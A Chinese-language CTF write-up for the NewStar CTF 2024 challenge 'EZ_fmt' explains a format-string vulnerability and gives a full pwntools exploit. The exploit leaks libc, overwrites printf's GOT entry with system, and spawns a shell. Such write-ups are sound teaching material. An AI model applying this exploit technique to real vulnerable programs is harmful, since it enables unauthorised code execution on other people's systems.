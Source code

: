 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# EZ_fmt

查看 `vuln` 函数

![vuln 函数](/assets/images/wp/2024/week2/ez-fmt_1.png)

很经典的格式化字符串，首先确定 offset 为 `8`

![确定偏移](/assets/images/wp/2024/week2/ez-fmt_2.png)

根据程序，我们有三次格式化字符串的机会

- 第一次泄露 libc
- 第二次改 `printf` GOT 表地址为 `system`
- 第三次输入为 `sh`，构造出 `printf(buf)=system(sh)` 即可

EXP 如下

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

libc = ELF('./libc.so.6')
elf = ELF('./chal')
flag = 0
if flag:
    p = remote('ip', port)
else:
    p = process("./")


def sa(s, n): return p.sendafter(s, n)
def sla(s, n): return p.sendlineafter(s, n)
def sl(s): return p.sendline(s)
def sd(s): return p.send(s)
def rc(n): return p.recv(n)
def ru(s): return p.recvuntil(s)
def ti(): return p.interactive()


def leak(name, addr): return log.success(name+"--->"+hex(addr))


sla(b': \n', b'%19$p')
ru(b'0x')
libc.address = int(rc(12), 16) - 0x29d90
leak("libc", libc.address)

low = libc.sym['system'] & 0xff
high = (libc.sym['system'] >> 8) & 0xffff
payload = b'%' + str(low).encode() + b'c%12$hhn'
payload += b'%' + str(high - low).encode() + b'c%13$hn'
payload = payload.ljust(0x20, b'a')
payload += p64(elf.got['printf']) + p64(elf.got['printf']+1)


sa(b': \n', payload)

sla(b': \n', b'  sh;')
# gdb.attach(p)
p.interactive()
```
